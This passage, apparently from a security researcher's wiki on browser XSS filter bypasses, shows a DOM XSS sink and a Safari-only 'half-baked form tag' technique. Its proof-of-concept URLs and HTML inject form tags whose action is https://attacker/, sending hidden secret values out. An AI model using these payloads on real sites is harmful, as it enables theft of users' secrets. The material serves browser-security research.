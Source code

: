 ```
<body>
<script>
hash=location.hash.slice(1);
document.write(decodeURIComponent(hash));
</script>
</body>
```

### Using half-baked form tags (getting information only) (Safari only)

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. New form tags can be placed where existing form content containing sensitive information can be submitted

Reference URL:

- https://bugs.chromium.org/p/chromium/issues/detail?id=719092

PoC:

(if you are inside a form) [https://vulnerabledoma.in/bypass/form?q=%22%3E%3C/form%3E%3Cform%20action=https://attacker/](https://vulnerabledoma.in/bypass/form?q=">

```
<form action="form">
<input type="hidden" name="q" value=""></form><form action=https://attacker/">
<input type="hidden" name="secret" value="a09d3ef0">
<input type="submit">
</form>
```

(when outside the form) [https://vulnerabledoma.in/bypass/form2?q=%3Cbutton%20form=f%3ECLICK%3Cform%20id=f%20action=https://attacker/](https://vulnerabledoma.in/bypass/form2?q=CLICK

```
<div><button form=f>CLICK<form id=f action=https://attacker/</div>
<form action="form2">
<input type="hidden" name="secret" value="a09d3ef0">
</form>
```

## past bypass

Posted [in Fixed Bypass Archive .](https://github.com/masatokinugawa/filterbypass/wiki/Fixed-Bypass-Archive#xss-auditor)

# XSS filter for IE/Edge

## Items not subject to blocking

### XSS happening in string literals
